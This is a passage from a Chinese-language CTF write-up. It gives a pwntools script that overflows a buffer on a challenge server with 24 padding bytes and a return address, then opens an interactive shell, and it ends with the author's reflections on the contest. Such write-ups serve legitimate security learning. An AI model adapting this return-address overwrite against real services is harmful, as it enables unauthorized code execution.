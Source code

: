 * buffer overflow，沒啥好說的

#### Solution

```python=
from pwn import *
r = remote('chals1.ais3.org', 12347)
r.recvuntil('What\'s your name?')
target_address = p64(0x401216)
r.sendline(b'A' * 24 + target_address)
r.interactive()
```

## 心得

老了，熬夜的體力大不如前了，加上這學期好多專題 QAQ，真的是無法一直打，這次很多題目都滿有趣的，也看到出題者在 DC 聊天的內容，像是說題目難度判斷有誤之類的 w

有點可惜這次的題目有一些有想法但是礙於實在是事情有點多無法在時間內完成，不過還是挺好玩的 OuOb